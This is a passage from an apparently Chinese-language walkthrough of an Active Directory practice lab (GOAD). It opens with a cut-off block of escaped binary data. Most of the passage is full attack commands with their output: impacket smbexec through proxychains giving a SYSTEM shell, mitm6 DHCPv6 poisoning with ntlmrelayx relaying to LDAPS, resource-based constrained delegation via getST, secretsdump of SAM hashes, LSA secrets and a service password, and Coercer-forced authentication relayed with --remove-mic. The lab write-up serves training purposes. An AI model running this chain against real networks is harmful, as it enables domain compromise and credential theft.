\\x8c\\x9f@\\x05\\x00\\x00\\xeeOw\\xec\\x8d)\\xcen\\xf2N-\\xff\\x8e\\x8e\\\'\\xfd9y\\xa4\\xe4\\x98\\xa9Q\\xce\\xee\\xb7\\xe5l`jA^5\\xa6\\x1a\\x08\\xd8\\x06D@\\x15\\x07rs\\xd8\\xe6\\\\\\xa9im\\xc4\\xe5\\xbfx\\xbdf\\xba\\xd1\\x8d\\x05\\xaf\\xd2]xN\\xddU10\\xb2l\\xbf\\xcc;\\xd7\\x1e\\xdb\\x01/\\xb06\\xa2\\xb2\\xb8\\xed\\xff)^\\x90\\xce\\xf2\\xe6\\xefU\\xac\\x07\\xae_X\\xae\\xe4h\\xaf \\xc0\\x165Q%a\\xa6\\x0b\\xde\\xaa\\x96\\xeaTC~\\x89\\xa0=\\xf5\\xb3<\\xaf\\xd3\\xed\\x02\\xb2\\xf3i\\x97N\\xbdU\\x9b\\xc9\\xde\\xc6\\x97\\n\\xe2\\x88`\\x11l\\xc4?\\xf8Y\\x1f\\x92\\x83V\\rF\\xd5\\xb2U\\x17\\xf4*|\\xbf\\x99?\\xebc\\xb2\\xf6WU\\xf2<\\xcfk\\x89\\xbe\\x07\\x88\\xfe\\x95:]s#*\\xf1u\\xfaE\\xde\\x18\\xbd\\xf2\\xd9\\x0b\\xd2\\x86 >\\xc6v\\xf7u\\xc7N,\\xb0\\x8dkw&\\x1e\\xcd\\xedD*\\x97\\x84\\xe0\\xdc\\x9fq\\xc8\\xa4U\\xeff\\xae\\xe1\\xac\\t\\x07\\x04\\xfb\\x0e\\x95\\xa4\\xb5\\x01\\x03\\xdb\\x0e\\t\\xef\\xdf\\xee7\\xf8\\x9d\\xda\\x07zD\\xd5\\x80L\\xc8\\xc5+\\xf2\\xe1\\x05\\x8d\\xa8\\xb9\\xc9\\xf2\\xe5t\\xd6\\xd1-\\xdb\\x106\\x92\\x18T\\xcf\\xd79\\xa8\\xfbAG\\x9d\\xd2\\xbe\\x13i\\xa8\\xc8\\xcaG>\\x05\\xf8"\\xa8Y\\xd7\\x03\\x83\\x9d\\xef\\xf7\\xde\\x14nu\\xd5*\\xf9;A\\x026;\\\\n\\xab\\xbf\\xcd)\\xd0m\\xfd\\xdd\\xff\\x1a\\xc38\\xd3\\x98\\x1b\\x83\\xb5\\xf5\\xa7\\xd5\\x8fbS\\xe6\\x13\\xbbt\\xb3\\xc8\\xda\\xa8%\\xa8\\x94\\xf3\\xde\\xc3\\x02ip\\x85^\\x1d\\xd0\\x7f\\xf1]\\xb84\\xb6\\x80\\x9e\\xd0),\\xc0[\\x1b*\\xd8<\\xb23\\x87?b\\xe4\\x82lI\\xe6W \\xaer\\xd2\\xe42wn\\x1d\\xa7{>M\\xba\\xc2\\\\[\\xa3\\rt\\xf9\\xc9\\xc5]\\x93U0\\x8d,\\x1c\\xe7\\xd7\\x8b\\xc5x\\x97h\\xa9C\\xf5o\\xa5\\xc9\\x1dEvw\\xaa\\xf4\\x81\\xb2\\x1b\\xd6\\xb9\\xba,\\xfe\\xd6]d\\xd6\\xc3{J\\xa4\\x0b\\xa750\\xb7:\\xc7\\xd0\\x9a\\xd1\\xae\\xf6\\xa9&\\xcd\\x16\\xaf\\xfb\\xfd\\xec\\xcen1l\\xcav)\\x08\\xd1\\xbf0\\x94\\xf1\\xfen\\xdb\\x8a\\xbeahvX\\x9f\\x85T\\xfc\\x9e\\xa3p(\\x1b\\xb3\\x82!*\\xd0h%\\xc2\\x90\\xe9?\\x0cA\\xc8\\x19\\xed9Im0+\\x83\\xad\\x0b\\x0eq\\xa9/\\xe0c\\x94\\x91\\xda \\xde\\x99zr\\x95X\\xa4\\x91v\\xc2\\xc6Sx\\xa0R\\x98\\x8a\\x85\\x98N\\\'\\x0f\\n\\xc1\\x0e\\\'\\x93X\\x93\\xba\\x01\\x19/c\\x11A\\x9abvZ\\xa8\\x87\\xad\\xe9XMW\\xb4d(@F\\x0c\\xc2\\xb6\\x8c\\xa6Y\\xefu\\xaf\\xa3\\xe9#\\x04\\xbf\\x87J\\\\\\xd3X\\x05,\\x8b\\x98\\xb6\\x028u\\xb3vx\\x01\\\\\\x7f\\xa8\\x89\\x0f\\x12\\x92\\xa1`\\xa6v#=\\x88\\xeb\\xa2\\xd5`\\x0c\\x1en\\xfc\\x03\\xf1%\\xf81Y\\xdf.I\\x1d\\xb3L\\xbb\\xc1ne\\x9e2\\x9a\\xd3\\xd8(\\xbb\\x8b\\x90\\xc7Df\\xf0y\\xf6\\x1b\\x1f\\x1c0oD\\xbd\\xe0\\xc5\\xe3\\xf4A\\xe8z\\x80fx\\xc5\\xdb\\xbdK#w\\xe2\\x9b\\xafsK`m\\x1di\\x04\\xa5\\x03\\xd0\\xe4\\xb5\\xea\\xe9i\\xfc\\x96\\xd5\\\\\\xcb;\\x92\\xa7\\xa2\\xf5\\xb3\\x99\\xd3\\xba\\xb3\\x1a\\xca\\x8c\\xaf\\x1eu.\\xc4\\x07^ y`\\x07$\\x95Tn\\x90n\\xcbd\\xd2\\x07\\xf8]\\xe6\\nLB\\x16\\xff\\x9e\\xc4\\xc2\\x9b\\xc8\\x90\\xa2\\x9f&\\xd5\\\'\\xe0n)\\xfc\\x7fo\\nQ\\xf2U\\x8b1\\xd1[\\xdf:\\xd1\\xda|\\xd0\\xc9]\\x17\\x82\\x90\\x8c{6\\xdf\\x1b\\x05\\x12=bN\\xe9gP\\x06G\\x12#\\xa5\\x00\\x03\\xbf\\x1d\\xa4\\xed^\\x15\\xdf\\xac\\xd9#\\x868\\xc3\\xc7\\x8ar\\xa9U\\xb2\\xeb\\x92\\xe0\\xd0\\xd8W\\xd1\\xc4\\xc7\\xe93a\\xba\\x8a\\x07\\xeb%\\xca\\xbf~\\xe28\\xf6\\xba\\xfe\\xfaI\\x18:4H\\x8c\\x1a\\xdaV6\\xdf\\xd8\\xa7\\x0b\\x86\\xe6\\x0f\\xca;n_\\\'n\\xcd.c%eW\\xa2SU\\xe2\\x19$NO\\x9f\\x0bc\\x95^T\\x8eKR\\x041\\x0f]c ;v\\xc2\\xc0\\xf3\\xc1v\\x90p\\xd1\\x8f\\xe8\\x88\\xdc\\xfd\\xde+*\\xc7\\xa5\\x8e\\xaf\\x86\\x98Z\\xdcT$\\xc6\\x97R\\xa4\\x9f\\xf9\\xa24l\\x1b\\x02B\\xc9\\x8cM\\x12\\x16\\x99\\x1c\\xb0\\x98\\x95\\xe3ZI\\xcc\\xc4\\x8e\\xb4\\xbe\\x11\\xe7\\x16og\\xd39\\xc3G\\xea\\x99\\xef\\x89\\x01l>8\\xde\\xa0\\x9d(\\xa3H\\xfd\\xc9\\x02\\x90\\xa8d\\\\\\x8e[\\xb8J/=\\xf1\\x94k\\x8e\\xfa\\xaf+\\xebw]\\x9a\\xd30\\x98~\\xaa\\xf0\\xcf\\x86,\\xcb\\\\\\t\\xaa\\xc5\\xb4\\xa4m\\xeb{\\t(\\x8c\\xbe0\\xaexo\\x8ej\\xde\\xf7\\x18\\x98\\x1a\\xb2\\x1a\\xa2\\xc8S{=h\\x10e\\xb7S\\x10\\xcemd\\xb9\\x01^\\xada\\xd5G\\xadh\\xcf\\xb0U\\x95S[\\x97\\xf5\\xd2@\\x89\\x1b\\xb7\\x1fO\\xf2U\\x9c\\r\\xceK\\xaf\\x83\\xeb\\xdal6t\\xe4\\x93\\x93I}k\\x06\\x90\\xafz\\xea\\x1d\\xa2]\\xef;\\x8a\\xc5;\\x9f\\x7f\\x19\\x02\\x1a\\xaa|\\x7fj]\\x1d\\x8b(\\t\\xcd7\\\'\\x0e\\xad\\x10\\xfa&\\xc4\\xba\\x87X#]?\\xc2\\x93{\\x8f_\\xcaj\\xf5\\x9b\\x04roZ\\x9a\\x93\\x9a\\xe7MW\\x81_\\xd3lxc[$3\\x065z-\\x91\\xf5\\xcc\\xfd{+\\xde\\xc5\\xf7\\xec\\x19\\x10\\xe4\\xc0\\xc7\\xfc\\x12J\\xdf\\xc4 \\xff\\x94u\\x1f]\\x91\\xaf\\xaf\\x0f7\\xf4\\x1c\\x9fm\\x90\\x1b\\xa2\\x99\\x87\\x10C\\xe8g\\x87\\xe6x\\xdb\\xd5\\xb2SFX\\xa5d+\\x85\\x9d\\x1fc\\x7f\\x9c4>\\xaf\\xea3}\\x9c\\xc8d:\\xb0Ji35 17\\x01\\xba\\x89\\xdeu_u*B\\xa4\\x03\\x08(\\xff\\xce\\xe9\\x02\\xbb\\x17\\xa5jxA)G\\xf2\\xce\\x16\\x01#\\x11et\\x7f\\x81\\xfc\\xbd3.3\\xfe\\xcel\\xb6\\x19\\x90\\xda\\x81\\x11\\xae\\x1c\\xeb\\xc5\\xa1\\xfc\\xc8i\\x17\\xccI\\xf3\\x0c<k\\xd5\\n\\xed\\xcfI\\xf8\\x14\\x00\\x00\\x00\\xb2\\xfb\\xa9\\x93\\r\\xa3:\\x1eG\\xfd$\\xc3hp\\x83\\x12,\\x14\\x0b\\xfd\\x01\\x00\\x00\\x00\\xd0\\x8c\\x9d\\xdf\\x01\\x15\\xd1\\x11\\x8cz\\x00\\xc0O\\xc2\\x97\\xeb\\x01\\x00\\x00\\x00\\x9a\\xe4\\x0f#\\x85q\\xceI\\xbdG/\\xd2\\x19\\x97#8\\x00\\x00\\x00\\x00\\x18\\x00\\x00\\x00E\\x00x\\x00p\\x00o\\x00r\\x00t\\x00 \\x00F\\x00l\\x00a\\x00g\\x00\\x00\\x00\\x03f\\x00\\x00\\xc0\\x00\\x00\\x00\\x10\\x00\\x00\\x00a4b.\\xce\\xef&\\x00&\\xe7\\xdc\\xa28\\xfd\\x1bL\\x00\\x00\\x00\\x00\\x04\\x80\\x00\\x00\\xa0\\x00\\x00\\x00\\x10\\x00\\x00\\x00\\xd5>%\\x08\\x85\\x97e \\xf0\\xe1\\n\\xa8\\x9b*\\xea\\xd8\\x08\\x00\\x00\\x00\\xa8\\xb4+G\\x03\\x04\\xee\\xa3\\x14\\x00\\x00\\x00#\\xba\\xdd\\xee\\n\\x15\\xf664\\\\dX\\x8aW\\xabk\\x9a\\x8f\\xad\\xad\'[:1524]\'')

```

#### Smbclient

使用 smbclient 直接连接到 smbserver

```bash
proxychains impacket-smbclient -no-pass 'NORTH'/'EDDARD.STARK'@'192.168.56.22' -debug
```

```bash
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.16
[proxychains] DLL init: proxychains-ng 4.16
[proxychains] DLL init: proxychains-ng 4.16
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[+] Impacket Library Installation Path: /usr/lib/python3/dist-packages/impacket
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.56.22:445  ...  OK
Type help for list of commands
# shares
ADMIN$
all
C$
IPC$
public
# use C$
# ls
drw-rw-rw-          0  Tue Jul  4 20:18:24 2023 $Recycle.Bin
drw-rw-rw-          0  Thu Jul  6 04:57:39 2023 Config.Msi
-rw-rw-rw-       1220  Wed Jul  5 23:24:10 2023 dns_log.txt
drw-rw-rw-          0  Fri Jul 17 10:28:38 2020 Documents and Settings
drw-rw-rw-          0  Thu Jul  6 04:48:54 2023 inetpub
-rw-rw-rw-  738197504  Thu Aug  3 04:14:31 2023 pagefile.sys
drw-rw-rw-          0  Wed Jul  5 18:50:24 2023 PerfLogs
drw-rw-rw-          0  Thu Jul  6 04:56:49 2023 Program Files
drw-rw-rw-          0  Thu Jul  6 04:56:08 2023 Program Files (x86)
drw-rw-rw-          0  Thu Jul  6 06:31:42 2023 ProgramData
drw-rw-rw-          0  Tue Jul  4 20:18:03 2023 Recovery
drw-rw-rw-          0  Thu Jul  6 04:51:23 2023 setup
drw-rw-rw-          0  Thu Jul  6 05:00:47 2023 shares
drw-rw-rw-          0  Fri Jul 17 10:27:55 2020 System Volume Information
drw-rw-rw-          0  Wed Jul  5 23:11:00 2023 tmp
drw-rw-rw-          0  Tue Aug  1 02:49:18 2023 Users
drw-rw-rw-          0  Wed Aug  2 05:24:26 2023 Windows
```

代码执行使用 smbexec 或 atexec

```bash
proxychains impacket-smbexec -no-pass 'NORTH'/'EDDARD.STARK'@'192.168.56.22' -debug
```

```bash
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.16
[proxychains] DLL init: proxychains-ng 4.16
[proxychains] DLL init: proxychains-ng 4.16
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[+] Impacket Library Installation Path: /usr/lib/python3/dist-packages/impacket
[+] StringBinding ncacn_np:192.168.56.22[\pipe\svcctl]
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.56.22:445  ...  OK
[+] Executing %COMSPEC% /Q /c echo cd  ^> \\127.0.0.1\C$\__output 2^>^&1 > %TEMP%\execute.bat & %COMSPEC% /Q /c %TEMP%\execute.bat & del %TEMP%\execute.bat
[!] Launching semi-interactive shell - Careful what you execute
C:\Windows\system32>whoami /all
[+] Executing %COMSPEC% /Q /c echo whoami /all ^> \\127.0.0.1\C$\__output 2^>^&1 > %TEMP%\execute.bat & %COMSPEC% /Q /c %TEMP%\execute.bat & del %TEMP%\execute.bat

USER INFORMATION
----------------

User Name           SID
=================== ========
nt authority\system S-1-5-18


GROUP INFORMATION
-----------------

Group Name                             Type             SID          Attributes
====================================== ================ ============ ==================================================
BUILTIN\Administrators                 Alias            S-1-5-32-544 Enabled by default, Enabled group, Group owner
Everyone                               Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users       Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
Mandatory Label\System Mandatory Level Label            S-1-16-16384


PRIVILEGES INFORMATION
----------------------

Privilege Name                            Description                                                        State
========================================= ================================================================== ========
SeAssignPrimaryTokenPrivilege             Replace a process level token                                      Disabled
SeLockMemoryPrivilege                     Lock pages in memory                                               Enabled
SeIncreaseQuotaPrivilege                  Adjust memory quotas for a process                                 Disabled
SeTcbPrivilege                            Act as part of the operating system                                Enabled
SeSecurityPrivilege                       Manage auditing and security log                                   Disabled
SeTakeOwnershipPrivilege                  Take ownership of files or other objects                           Disabled
SeLoadDriverPrivilege                     Load and unload device drivers                                     Disabled
SeSystemProfilePrivilege                  Profile system performance                                         Enabled
SeSystemtimePrivilege                     Change the system time                                             Disabled
SeProfileSingleProcessPrivilege           Profile single process                                             Enabled
SeIncreaseBasePriorityPrivilege           Increase scheduling priority                                       Enabled
SeCreatePagefilePrivilege                 Create a pagefile                                                  Enabled
SeCreatePermanentPrivilege                Create permanent shared objects                                    Enabled
SeBackupPrivilege                         Back up files and directories                                      Disabled
SeRestorePrivilege                        Restore files and directories                                      Disabled
SeShutdownPrivilege                       Shut down the system                                               Disabled
SeDebugPrivilege                          Debug programs                                                     Enabled
SeAuditPrivilege                          Generate security audits                                           Enabled
SeSystemEnvironmentPrivilege              Modify firmware environment values                                 Disabled
SeChangeNotifyPrivilege                   Bypass traverse checking                                           Enabled
SeUndockPrivilege                         Remove computer from docking station                               Disabled
SeManageVolumePrivilege                   Perform volume maintenance tasks                                   Disabled
SeImpersonatePrivilege                    Impersonate a client after authentication                          Enabled
SeCreateGlobalPrivilege                   Create global objects                                              Enabled
SeIncreaseWorkingSetPrivilege             Increase a process working set                                     Enabled
SeTimeZonePrivilege                       Change the time zone                                               Enabled
SeCreateSymbolicLinkPrivilege             Create symbolic links                                              Enabled
SeDelegateSessionUserImpersonatePrivilege Obtain an impersonation token for another user in the same session Enabled


USER CLAIMS INFORMATION
-----------------------

User claims unknown.

Kerberos support for Dynamic Access Control on this device has been disabled.

C:\Windows\system32>
```

> 对于 SOCKS 连接，只能使用 `smbexec` 或 `atexec`；`wmiexec`、`psexec` 和 `dcomexec` 不适用。详见 [Impacket issue #412](https://github.com/SecureAuthCorp/impacket/issues/412)。

### Mitm6 + ntlmrelayx to ldap

> 由于MS16-077导致LLMNR/NBNS投毒指定WPAD文件方法失效，所以另一种有用方法是响应 DHCPv6 请求并将我们的主机设置为默认 DNS 服务器进行WPAD欺骗
>
> Windows 优先使用 IPv6 而不是 IPv4，因此我们可以捕获并毒害对 DHCPv6 查询的响应，使用**MITM6**更改 DNS 服务器并将查询重定向到我们的计算机
>
> 在实际的IPv6网络中，客户端的IPv6是由主机本身分配的，不需要DHCP服务器
>
> NTLM 认证消息嵌入在 SMB、HTTP、MSSQL、SMTP 和 IMAP 等应用协议的数据包中，LM 和 NTLM 认证协议是"独立于应用协议的"
>
> 这意味着可以将某个协议（例如 HTTP）中继 LM 或 NTLM 认证消息 到 另一个协议（例如 SMB），这称为跨协议 LM/NTLM 中继，但也预示着跨协议中继攻击受到应用程序协议的制约
> 下表总结了跨协议中继攻击的预期行为，具体取决于已经实施的缓解措施，表中列出的所有测试和结果均使用 Impacket 的 ntlmrelayx（Python）完成



- 启动mitm6来毒化 DHCPv6 并从主机获取 DNS 请求
- 顺便说一句，我注意到我们可以毒化域控制器，但 DC 并不受影响，仍然使用他们的本地 DNS 服务器
- 所以只能毒化 MSSQL 服务器
- 接下来将毒化 braavos 服务器将 wpad 查询并将 http 查询中继到 meereen 上的 ldaps，以添加具有委派权限的计算机

- 使用mitm6开始中毒并启动ntlmrelayx

```bash
sudo /root/.local/bin/mitm6 -i eth1 -d essos.local -d sevenkingdoms.local -d north.sevenkingdoms.local --debug
```

```bash
sudo impacket-ntlmrelayx -6 -wh wpadfakeserver.essos.local -t ldaps://meereen.essos.local --add-computer fake01 --delegate-access
```

- -6 : 在 IPv4 和 IPv6 网络上监听并执行操作
- -wh : ntlmrelayx 返回托管 WPAD 文件的服务器，由于不需要 WPAD 文件中的任何内容（mitm6 回答了所有问题），必须选择网络中不存在的主机
- -t : 将凭据中继到指定的服务器，如果没有"-t"，凭据将转发回客户端
- --add-computer : 尝试添加新的计算机帐户
- --delegate-access : 将中继计算机帐户的访问权限委派给指定帐户(启动委派攻击)

现在DNS已经中毒了



等待 wpad http 查询将请求转发到 ldaps（根据上表结果 http 能够中继到 ldaps，可以重新启动虚拟机以中毒和利用，无需等待）



可以看到机器账户ESSOS/BRAAVOS$的http请求转发到ldaps，BRAAVOS$作为机器账户自然具备创建机器账户和修改msDS-AllowedToActOnBehalfOfOtherIdentity属性权限（域用户具有创建10个机器账户权限），所以成功创建新的计算机帐户并授予其对受害计算机的委派权限

```bash
[*] Attempting to create computer in: CN=Computers,DC=essos,DC=local
[*] Adding new computer with username: fake01$ and password: x}W9.sOPB7$o4IY result: OK
[*] Delegation rights modified succesfully!
[*] fake01$ can now impersonate users on BRAAVOS$ via S4U2Proxy
[*] Delegation rights modified succesfully!
[*] fake01$ can now impersonate users on BRAAVOS$ via S4U2Proxy
```

接下来就进行**基于资源的约束委派攻击**，使用 getST 调用  S4U2Self 和 S4U2Proxy，完成对服务器Braavos$攻击

```bash
impacket-getST -spn cifs/braavos.essos.local essos.local/fake01\$ -impersonate Administrator
```

```bash
export KRB5CCNAME=Administrator.ccache
impacket-secretsdump -k -no-pass braavos.essos.local
```

```bash
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Service RemoteRegistry is in stopped state
[*] Starting service RemoteRegistry
[*] Target system bootKey: 0x9bb24fb9e9684ce8333026b4e7a67a4c
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:492c19fde6db57a251bf44c2b756ec3b:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
vagrant:1000:aad3b435b51404eeaad3b435b51404ee:e02bc503339d51f71d913c245d35b50b:::
[*] Dumping cached domain logon information (domain/username:hash)
ESSOS.LOCAL/sql_svc:$DCC2$10240#sql_svc#89e701ebbd305e4f5380c5150494584a
[*] Dumping LSA Secrets
[*] $MACHINE.ACC
ESSOS\BRAAVOS$:plain_password_hex:e478dc687076d76840a1e0dd1359e01270e998be36408a64063c4fb37c1bfc84b2e0daf4ae9655fa925c79d5bba72bc44e222de0f4a27cb60419ec81786895538eae378e3526380ba4d5e0e2cd2e1079d6ea6fe62110946a516f021ac12e0c39f0150cc74c6e0a9107d8ea4e20d371d8e6691fdb9d045ad68ebf4ce16e2dee4037cf5b24f912f06e6666339ab690848c07520daded4396e51e6d94da2f400049ddd96ca69594b3f772bea07a17e3d2e0a1ef1f10b3dda7be2ff00c57c6e58ff8020dac7b08828ad2d00735199bbef7a2e816acba3177ae191e8306b8c895fed66ef69419627f35b7f4503a6a498ee8d3
ESSOS\BRAAVOS$:aad3b435b51404eeaad3b435b51404ee:6cddb97c1fe7a8230d654413f2799e0b:::
[*] DPAPI_SYSTEM
dpapi_machinekey:0x15a98c9d9a40dbd9f71472cc20e6ed21046177d8
dpapi_userkey:0x1935d54fb2e3d629e6dbf76dbc988c08a31529a2
[*] NL$KM
 0000   26 72 00 BB 64 CB DD D7  34 20 B4 AC 7E 9A 99 05   &r..d...4 ..~...
 0010   75 95 40 EF C7 ED 72 3E  F4 66 93 E7 3D C9 B8 56   u.@...r>.f..=..V
 0020   EC E8 6E 4E 40 13 86 34  A8 F6 E6 36 C6 71 9F 7A   ..nN@..4...6.q.z
 0030   8F 63 A3 23 D9 37 A0 BC  07 C0 0B 06 41 21 5E 64   .c.#.7......A!^d
NL$KM:267200bb64cbddd73420b4ac7e9a9905759540efc7ed723ef46693e73dc9b856ece86e4e40138634a8f6e636c6719f7a8f63a323d937a0bc07c00b0641215e64
[*] _SC_MSSQL$SQLEXPRESS
essos.local\sql_svc:YouWillNotKerboroast1ngMeeeeee
[*] Cleaning up...
[*] Stopping service RemoteRegistry
```

我们也可以指定一个战利品目录，转存ldap上的所有信息

```bash
impacket-ntlmrelayx -6 -wh wpadfakeserver.essos.local -t ldaps://meereen.essos.local -l loot
```

参考链接：

<https://dirkjanm.io/worst-of-both-worlds-ntlm-relaying-and-kerberos-delegation/>
<https://chryzsh.github.io/relaying-delegation/>
<https://tttang.com/archive/1617/>

### Coerced auth smb + ntlmrelayx to ldaps with drop the mic

可以使用多种方法（petitpotam、printerbug、DFSCoerce）强制 meereen DC 连接到服务器上
要执行强制操作而不是从多种方式上选择，可以使用一体化工具[coercer](https://github.com/p0dalirius/Coercer)

根据 [hackndo](https://en.hackndo.com/ntlm-relay/) 和 [The Hacker Recipes](https://www.thehacker.recipes/ad/movement/ntlm/relay) 的说明，SMBv2 无法跨协议中继到 LDAP(S)，除非目标受到 CVE-2019-1040 影响。

启动ntlmrelayx，移除mic，跨协议中继到ldpas，创建新的计算机帐户并授予其对受害计算机的委派权限

```bash
impacket-ntlmrelayx -t ldaps://meereen.essos.local -smb2support --remove-mic --add-computer fake03 --delegate-access
```

在Server braavos 上运行强制身份验证（Server braavos 是最新的 Windows Server 2016，因此未经身份验证的 petitpotam 在这里不起作用）

靶场设计者提供以下命令，域用户khal.drogo之前从未获取密码，笔者推测之所以如此，是因为设计者想展示如何在域环境中从域用户提升到域中机器的管理员权限（攻击方法和前面一样NTLM中继和RBCD攻击二者完美结合）

```bash
Coercer coerce -u khal.drogo -d essos.local -p horse -t braavos.essos.local -l 192.168.56.1
```

虽然ntlmrelayx有报错，但是Coercer尝试到EfsRpcOpenFileRaw方法时可以看到fake03计算机创建成功

